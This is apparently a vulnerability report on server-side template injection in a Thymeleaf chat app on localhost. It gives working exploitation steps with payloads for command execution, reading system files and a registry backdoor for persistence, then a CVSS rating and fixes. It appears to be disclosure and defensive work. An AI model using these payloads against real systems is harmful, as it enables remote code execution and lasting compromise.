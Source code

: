 ### Step 1: Identify Injection Point
1. Access chat interface at `http://localhost:7070`
2. Send test message with basic Thymeleaf expression: `${7*7}`
3. If response shows `49`, SSTI vulnerability confirmed

### Step 2: Escalate to Code Execution
1. Send payload: `${T(java.lang.Runtime).getRuntime().exec('calc.exe')}`
2. Calculator application should launch on server
3. Confirms remote code execution capability

### Step 3: Data Exfiltration
1. Send payload: `${T(java.nio.file.Files).readString(T(java.nio.file.Paths).get('C:\\Windows\\System32\\drivers\\etc\\hosts'))}`
2. System hosts file contents returned in response
3. Demonstrates sensitive file access

### Step 4: Persistence Establishment
1. Send payload: `${T(java.lang.Runtime).getRuntime().exec('cmd /c reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run /v Backdoor /d C:\\backdoor.exe')}`
2. Registry entry created for persistence
3. Backdoor will execute on system restart

## Impact Assessment

### Severity: CRITICAL (CVSS 9.8)

**Attack Vector**: Network
**Attack Complexity**: Low
**Privileges Required**: None
**User Interaction**: None
**Scope**: Changed
**Confidentiality Impact**: High
**Integrity Impact**: High
**Availability Impact**: High

### Potential Attack Scenarios

1. **Remote Code Execution**: Immediate system compromise
2. **Data Exfiltration**: Access to sensitive files and data
3. **Lateral Movement**: Use compromised system as pivot point
4. **Denial of Service**: System shutdown or resource exhaustion
5. **Persistence**: Install backdoors and maintain access
6. **Privilege Escalation**: Exploit system services for higher privileges

## Recommendations

### Immediate Actions Required

1. **Disable Template Processing**: Temporarily disable Thymeleaf template processing for user input
2. **Input Validation**: Implement strict input sanitization and validation
3. **Access Controls**: Restrict template engine access to trusted sources only
4. **Security Monitoring**: Deploy monitoring for template injection attempts
